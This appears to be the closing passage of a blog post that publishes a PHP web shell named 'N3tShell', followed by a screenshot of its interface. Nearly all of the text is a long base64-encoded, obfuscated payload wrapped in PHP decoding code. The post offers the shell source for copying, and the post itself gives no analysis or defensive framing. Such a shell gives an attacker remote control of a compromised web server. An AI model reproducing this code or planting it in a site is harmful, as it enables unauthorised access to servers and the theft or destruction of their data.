5UItEuFMKm5NU5QB+ciedgYz+vrj9AzcNiVy5Wp2NJsVfBckN2TZ9HhsfkXBsjjZ
/yIhqehQxHZGdtmW5WnaJ4Xkm2J+fw2kpxm5t0LEnZnB4yvqFgC7dAa2Fp81HfA
mHnotbQnmaQqtxAZLY22SUnzqU7MOZmrucUQkLadiZR1AP8dyUreZJzdKW5eG43
zu37KYl3dkKaDx80J83njf9PnCW3ezRaYRmMBSfSEpFW5UxMSSyzM5LMQMS2Sg4K
xPZeFz90rqO7Llt2VAl2SJy6YqvsJ44FmRZTFvK2GCl5qBWC9lusQCWlz5U+gNGQ
c4zzEazMtPxkufFm11uMldAMjOJXQlGmrVwB88sKMA1AdCvM5lIYafOYwHCaTTBh
GFia3r+v1i/02hRvvJtNzQxSGxUB491voBI79CuAQSX1dF8+gr5EqIq8EkhvDKrj
dfealMwJteTruKCPmRM0eUKST0YN40HpIeuNpN94+lFhO1X6Jv3wKEySp0GmYX3
hInPSgottOHF8XNPEWdWofTXlSCoJy2mgbT7Cf1qZhlYmDSxp4MBZ4TlZE5rFjV
h9+euOqzSvzMgQ9xBm76SaKeRm2k2TZCJ4sTV9DDXfNgMPPd2JfVrfVU2Vf70WOH
oFiFVJtvi8PWp1BqLwMbKIfyAf/op9WO4D7nt5BTq0Vmc6xYlOtyTzQNfOUzw26M
jTH43Wbjkezbche9/x/DW1LnWHRTyfroNwNNvmKxXPfOoM6ErNeAyAtf8lu0jNvN
NwU4lkvIU6bHL5t6qFHNS3D/83OkyVka9l5EtypsvDT5n6VcXe4vjJ0dKc8e7g7y
nGXYjdKMYg5FcaB8J961hSp7v2xfd6rY0Nq2Y6lBGec3WGNu+0J6gtabovTNOSN
ClS1jjAIAyva7Ua023HSQybu6CaLc1OD1bKSH80RErxDThpHEtefbkFlOSoEtcm
mvGTkM4bW6FKrSVnVoqmTckBIS9Dvv69qReXSVc705OA5qpet2opz6Pn5fPB/fPK
eVT7Ca3UgflhXfLV1+1Kro4w83BZfelNLUXJA7HRTD2MnhVDG8uW8nyuZOx6rh5q
IQGgaAc5Onjp+h62JB9W3jKkX9tt43QxMpVl770icXFOxZwhQSmxPjgUVM1uAROC
OdoI3WRXo9QfzEYvK9a4UyEietfojn+paN0QhcKSYujhhntQrEh2IqV7YxuHZsPi
O9wM/TLna9fYBVscFVlto0riCuN7Oyv7XhSjE8bVaGz+j2nchTl/547c/B8TeZA
sqDvT+uB/TOsbY6WxsoWBIyw9noWiW2gALSX/oU5+Q1cTo5RmYYuEftJ+GExydZ
RSzZRBQes6myxwnAarYJBmMRh8LYfXXv2QJ+4LTzRNKp6Ik62J37AKXAGjYqHFtQ
rzLU8JbU2X9X4DCyFi1JaVh6EC1cU8H9NNKbTKehhapjkaxbB5ht046AbzWNcKT9
BoD/p0l212fmxIp/vKW1KBYvL3EiP1lP9nuu9caWlQ6w9r/YmQbSIXJ48neRTteK
jMnTU5hPP/7HR//REGbtKU0OF4KzGNm2gQNzG1aiJqqd5tKYV0pQWnecix1mo/9Q
fn0f3yp/+z9fl+pbRmVc3rg3COc+9rwityj03SNY6mgJByLtCm0FfwuWzI+61+F
5Up014lLHvLSr12650Y0JoRCjNUHjswKZUFhXtF4PunwYxc4aTTX5AIYMscjCxf
8J2q+5qVnPK0g1EuvOkgWNT2LtH1CRPf+s4MNkiXEqMy/an9uvfh2dG7Q0R1ie64
JoNI+Gt7wuVltsqah0J2o/aCi1lZ3A8RAEU7qYofM7fGg8q14NOFe42O0sX+xmVD
j+SFYh6ur8v5A1867TpnwtQzgj7PkQUGSj8B4GfTRQKkcBGUuEvKijAipaxIyKh4
RWybUAlPSd9aJ6f9xozlCsuqDEV4xVTJLJjxUeff5tGYAMwUIZDk/a3Rtt7gm7G6
0FomIyn25BUc7PeHplP91CYC5y/dr8/tytfM0mijp/ytVAlKM2MeY+P508tEPby
saJuhSgiDi3Gw6LoYUyeShR43WsJhf76Nxl0wsPT9XrfVcHzPiUSQQflgrbYVyn
Qj4XltKmw1Eocil6TvY6eCDAazmHRAmO/0XL9trecd0lM4AdaRJZDQ8u5vuJO+0b
gDwy4kV+J0SYIGu1aa4ukv7EJujRLxT1ny2LlWKFzlMHn3x1lEc436WptHPLFwHq
XL8IS7zaRvwGHp/BzbngZJEPcVwjHs/K3xGJbY7mht0OvPY9T++uubGKIsdSFe/n
FdcUg0SoRPGDS7jGwaXAh4b2GgpOQBzAy2QcQHRlSJXhACuvVeAPNm0qpvcW4YPl
jktiiY+terxEXIf/qyVuaEMoEikscv/sxgkNtqzK4Y7NVwN/phMHy4lVGD+OHhQ
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'\x29\
x29\x29\x3B&quot;,&quot;.&quot;);?>


exit;
?>
{% endhighlight %}

### N3tShell script Screenshot

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/01/n3tshell-1024x515.png" alt="n3tshell script screenshot" width="604" height="303" class="aligncenter size-large wp-image-338" />][1]

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/n3tshell.png